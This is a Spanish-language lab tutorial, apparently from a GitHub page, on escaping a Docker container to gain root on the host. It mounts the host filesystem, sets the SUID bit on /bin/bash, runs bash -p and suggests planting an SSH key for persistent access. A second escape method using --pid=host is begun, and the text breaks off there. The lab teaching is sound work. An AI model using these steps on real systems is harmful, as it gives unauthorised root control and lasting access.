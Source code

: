 **En otra ventana de nuestra máquina abrimos otra instancia**
```bash
ssh usuario@IP_MAQUINA_UBUNTU
```

**En la nueva instancia**
```bash
ls -l /bin/bash
```
**Salida**
```bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
**Como vemos, la salida no es `SUID`**


**Dentro del contenedor de la maquina de ubuntu server**
```bash
docker run --rm -dit -v /:/mnt/root --name privesc ubuntu
docker exec -it privesc bash
```
*Con esto nos estaremos conectando al host de la maquina real*


**Nos dirifimos al y le agregamos permisos `SUID`**:
```bash
cd /mnt/root/bin
chmod u+s bash
```

**Salida desde la otra ventana**
```bash
exequiel@ubuntuServerDockerBreakout:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash #esto se ejecuto antes de darle permisos `SUID`
exequiel@ubuntuServerDockerBreakout:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
exequiel@ubuntuServerDockerBreakout:~$ bash -p
bash-5.2# whoami
root
```
**Ahora estamos como `root`**
Desde este punto ahora, si quisiéramos, podríamos meternos en el directorio `/root/.shh` agarrar la clave privada del usuario `root` y meterla dentro de `/root/.ssh` o mi clave pública como `authorized_keys` para que después me pueda conectar por ssh sin que me pida la contraseña.

---

### Segundo forma de escapar a la maquina host:
**Volvemos a dejar configurado como estaba**
En la ruta `/mnt/root/bin` le sacamos los permisos de `SUID` `chmod u-s bash` salimos del contenedor y lo borramos `docker rm $(docker ps -a -q) --force`

Hay muchas formas de escapar del contenedor también a la hora de desplegar un contenedor de esta manera:
```bash
docker run --rm -dit --pid=host --name ubuntuServer ubuntu
```
*De esta forma lo que estás consiguiendo. Al desplegar el contenedor, y hacemos un `python3 -m hhtp.server 8081` nos montamos un servidor como usaruio root.
